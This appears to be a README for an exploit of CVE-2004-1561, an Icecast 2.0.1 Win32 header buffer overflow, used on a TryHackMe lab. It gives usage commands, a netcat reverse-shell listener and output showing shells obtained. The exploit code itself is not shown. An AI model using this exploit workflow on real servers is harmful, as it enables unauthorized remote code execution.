 INFO
----

    # CVE-2004-1561 Icecast Header Overwrite buffer overflow RCE < 2.0.1 (Win32)

    Python 3 Icecast Header Overwrite buffer overflow RCE < 2.0.1 (Win32), rewritten from this [Metasploit module](https://github.com/rapid7/metasploit-framework/blob/master//modules/exploits/windows/http/icecast_header.rb). I rewrote this from the Metasploit module because I couldn't get [this](https://www.exploit-db.com/exploits/568) to work.

    ## Usage:
    Replace reverse shell shellcode in exploit, call it with argument for remote server and port.

    ```
    root@Kali:~/TryHackme/Ice# ./icecast.py 192.168.92.133 8000

    Done!
    ```
    Reverse shell listener:
    ```
    root@Kali:~/TryHackme/Ice# nc -nlvp 443
    listening on [any] 443 ...
    connect to [192.168.92.128] from (UNKNOWN) [192.168.92.133] 49211
    Microsoft Windows [Version 6.1.7601]
    Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

    C:\Program Files (x86)\Icecast2 Win32>
    ```

    ## Update for 568-edit.c
    Managed to get the [original exploit](https://www.exploit-db.com/exploits/568) to work. Edited according [to this](https://www.exploit-db.com/exploits/573).

    ### Usage for 568-edit.c
    ```
    root@Kali:~/TryHackme/Ice# gcc 568-edit.c -o 568
    root@Kali:~/TryHackme/Ice# ./568 192.168.92.133

    Icecast <= 2.0.1 Win32 remote code execution 0.1
    by Luigi Auriemma
    e-mail: aluigi@altervista.org
    web:http://aluigi.altervista.org

    shellcode add-on by Delikon
    www.delikon.de

    - target 192.168.92.133:8000
    - send malformed data

    Server IS vulnerable!!!
    ```
    On listener
    ```
    root@Kali:~# nc -nlvp 443
    listening on [any] 443 ...
    connect to [192.168.92.128] from (UNKNOWN) [192.168.92.133] 49238
    Microsoft Windows [Version 6.1.7601]
    Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

